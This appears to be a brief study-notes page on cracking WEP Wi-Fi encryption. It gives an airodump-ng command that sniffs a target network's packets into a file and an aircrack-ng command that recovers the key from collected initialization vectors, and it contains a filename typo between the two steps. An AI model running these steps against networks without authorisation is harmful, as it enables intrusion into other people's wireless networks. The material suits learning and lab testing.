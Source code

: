 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
